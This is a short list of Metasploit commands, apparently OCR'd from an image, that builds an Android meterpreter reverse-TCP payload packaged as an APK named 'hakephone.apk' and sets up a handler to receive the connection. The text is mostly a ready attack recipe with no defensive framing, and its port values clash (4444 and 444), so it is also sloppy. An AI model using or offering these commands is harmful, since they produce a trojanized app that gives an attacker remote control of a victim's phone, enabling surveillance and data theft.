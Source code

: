 # msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=4444 R >hakephone.apk
# msfconsole 
# use exploit/multi/handler
# set payload android/meterpreter/reverse_tcp
# set LHOST 192.168.1.106 
# set LPORT 444
# use exploit/multi/handler
# help




